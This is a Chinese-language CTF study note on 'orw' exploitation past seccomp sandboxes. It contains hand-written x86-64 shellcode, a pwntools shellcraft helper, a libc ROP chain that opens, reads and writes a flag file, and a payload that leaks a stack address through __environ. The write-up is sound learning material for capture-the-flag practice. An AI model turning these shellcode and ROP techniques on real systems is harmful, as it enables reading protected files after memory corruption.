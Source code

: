 以这个为例：[gwctf_2019_shellcode](https://buuoj.cn/challenges#gwctf_2019_shellcode)



**看沙箱保护**

```
seccomp-tools dump ./pwn
```

![image-20240628151234891](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\other\orw\images\image-20240628151234891.png)



**编写orw shellcode**

```c
open(flag_addr,0) // "flag"地址，模式(READ_ONLY)
read(3,addr,0x50) // fd:3，即前面打开的flag文件的fd (进程默认文件描述符0,1,2)，读取到addr的地方，大小为0x50
write(1,addr,0x50) // 将addr的0x50字节数据写到fd=1即标准输出里
```

对应汇编代码编写

`open(flag_addr,0):`

```assembly
push 0x67616c66 # 倒序压入字符串 "flag" -> "galf"
push rsp
pop rdi

#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址

push 0
pop rsi
push 2 # 64位open的系统调用号
pop rax

syscall
```



`read(3,addr,0x50)`：

```assembly
push 3
pop rdi
push rsp
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么，只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要，重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。

push 0x50
pop rdx
push 0
pop rax

syscall
```



`write(1,addr,0x50)`：

```assembly
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上

push 0x50
pop rdx
push 1
pop rax

syscall
```



写好后

```python
shellcode = asm("""
...
""")

p.send(shellcode)
```

![image-20240628152046740](D:\N0zoM1z0\CyberSpaceSecurity\Pwn\other\orw\images\image-20240628152046740.png)



# shellcode orw

```python
def orw_code(address):
	code = shellcraft.open('./flag') + shellcraft.read(3,address,0x100) + shellcraft.write(1,address,0x100)
	return asm(code)
```





# ROP orw

几个点要注意下：

1. `open(flag,0)`

   flag：'flag'字符串的**地址**！

   记得传第二个参数0！！

2. rdx的gadget在程序中一般没有，都是泄露libc后去libc中找。



```python
open_f = libcbase + libc.sym['open']
read_f = libcbase + libc.sym['read']
write_f = libcbase + libc.sym['write']
rdx_r12 = 0x000000000011f497 + libcbase

# open('./flag')
# read(3,bss+0x500,0x100)
# write(1,bss+0x500,0x100)
flag = 0x0000000000601046
pl += p64(rdi) + p64(flag) + p64(rsi_r15) + p64(0)*2 + p64(open_f)
pl += p64(rdi) + p64(3) + p64(rsi_r15) + p64(bss+0x100)*2 + p64(rdx_r12) + p64(0x100)*2 + p64(read_f)
pl += p64(rdi) + p64(1) + p64(rsi_r15) + p64(bss+0x100)*2 + p64(rdx_r12) + p64(0x100)*2 + p64(write_f)
```



如果源程序没有'flag'字符串，就需要我们泄露栈地址然后将flag写在栈上。

泄露方法

# __environ泄露栈地址

```python
# leak stack_addr
environ = libc_base + libc.sym['__environ']
payload = b'a'*0x28 + p64(rdi) + p64(environ) + p64(elf.sym['puts']) + p64(elf.sym['vuln'])
sla(b'read\n', b'-1')
sa(b'read:\n', payload)
stack = get_addr()
```

然后gdb动调看leak的栈地址和我们想要的字符串的offset即可。

